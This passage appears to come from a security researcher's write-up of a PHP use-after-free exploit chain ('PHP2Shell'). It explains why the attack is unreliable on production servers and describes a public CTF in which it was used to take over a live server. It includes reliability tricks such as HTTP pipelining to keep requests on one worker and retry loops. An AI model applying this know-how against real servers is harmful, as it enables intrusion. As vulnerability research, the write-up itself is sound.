But is it truly that easy in the real world?
The short answer is: No. When you move from a quiet, theoretical lab environment to a noisy, production web server with real traffic, this attack chain becomes incredibly difficult to pull off. Here is why:
1. Worker Process Roulette
In our explanation, we relied heavily on a stale pointer remaining in the memory of a specific PHP worker process between Request #1 (the UAF trigger) and Request #2 (the memory leak/forgery). However, production web servers (like Apache with PHP-FPM or mod_php) use a large pool of worker processes to handle concurrent traffic.
If you send Request #1, it might be processed by Worker A. If you immediately send Request #2, the server's load balancer might route it to Worker B, Worker C, or Worker D. Because the stale pointer lives entirely inside Worker A's isolated memory space, your follow up requests will completely fail unless they happen to land on that exact same worker.
On a busy server with hundreds of workers, hitting the same worker consecutively is a game of chance. And to maximize our chances there are always smart tricks that we can try as using the last byte synchronization technique or HTTP pipelining.
HTTP Pipelining:
Instead of sending requests one by one over separate TCP connections which risks a load balancer scattering them across different workers HTTP Pipelining allows us to push the initial memory exhaustion request and all follow up payload requests down a single TCP connection, this is the technique we used when sending 1 producer followed by 8 consumers.
By concatenating the requests and sending them all in one go using a single socket write, the server's may be forced to hand that entire stream to a single worker to process sequentially. This may help us bypass the "Worker Roulette" problem while minimizing the window for legitimate traffic to interfere.
Is it guaranteed? No, absolutely not.
A reverse proxy or load balancer may terminate the client connection and dispatch each request independently. If the infrastructure breaks the pipeline apart, those requests can still get scattered across different backend workers.
2. The Memory Layout Lottery:
everything we talked about changes completely depending on:
- The exact PHP version (e.g., 8.4.26 vs 8.4.27).
- The architecture (e.g., x86_64 vs aarch64).
- The specific operating system and compiler used to build the image (e.g., Debian vs. Alpine Linux).
If an attacker tries to use an offset calibrated for an Alpine PHP build on a Debian server, the math will be wrong. The exploit will point pDestructor into random garbage memory, crashing the worker process instead of executing code. Attackers must painstakingly investigate the target's exact environment and calibrate their offsets before launching the attack.
3. Allocation Noise
The entire exploit relies on the memory allocator cleanly handing the attacker back the exact same memory chunk that was just freed.
In a perfectly quiet lab, this works beautifully. On a real web server, hundreds of legitimate users are constantly making requests, causing the PHP engine to rapidly allocate and free memory in the background. If another user's request happens to claim that freed memory chunk a microsecond before the attacker's Request #2 arrives, the exploit fails.
Furthermore, the memory positioning of the forged data itself is highly sensitive. it can fluctuate depending on what else the worker was doing. Because of this noise, attackers often have to run the exploit chain in a loop, making a large number of retries and hoping that the stars align for just one of them.
Case Study: The "Steal My Bitcoin" Challenge
Because exploiting memory-corruption vulnerabilities reliably can be extremely difficult, a security researcher known as James Pavur, posting as cloudlandsdev, launched a public CTF challenge called "Steal My Bitcoin" on October 24, 2026. The challenge was designed to test whether the recently disclosed PHP2Shell vulnerabilities could be exploited against an internet-facing server in practice.
The target ran an unpatched PHP 8.4.26 environment. A Bitcoin wallet credential was stored on the server and could be retrieved by executing a designated binary named print-flag with the privileges of the PHP process. The initial prize was worth approximately $500, and community donations increased the advertised pool to 0.02511679 BTC, valued at approximately $2,021 when the challenge was won.
The first person to exploit the vulnerability and read the flag would get to keep the wallet.
At first, no one could crack it. Early skepticism arose, but it turned out the server was initially misconfigured it was serving static HTML through PHP's built in development server, meaning the vulnerable session parsing code paths were never actually executed. Once the organizer adjusted the setup to a real-world PHP deployment, the race was on.
At 15:47 UTC on October 25, a researcher known as KillaBoi, also known as Killa, successfully achieved remote code execution. The challenge website recorded the win approximately 19.28 hours after launch, but the successful exploitation occurred less than three hours after the PHP endpoint was added.
So yes, pulling off modern memory corruption exploits on a live server is incredibly hard, highly complicated, and extremely sensitive to environmental noise but as this challenge proved, it is still doable.
Acknowledgements
A huge thank you to everyone who contributed, directly or indirectly, to making this research possible:
- James Pavur (@pavja2), for creating the Steal My Bitcoin challenge and giving the security community an opportunity to investigate PHP2Shell through a hands-on exploitation challenge.
- KillaBoi (@KillaBoi), for publishing your exploit and making it possible to study, reproduce, and compare. Congratulations again on solving the challenge!
Written by Ariane Djad
Full source code, heap dumps, and interactive visualization available on GitHub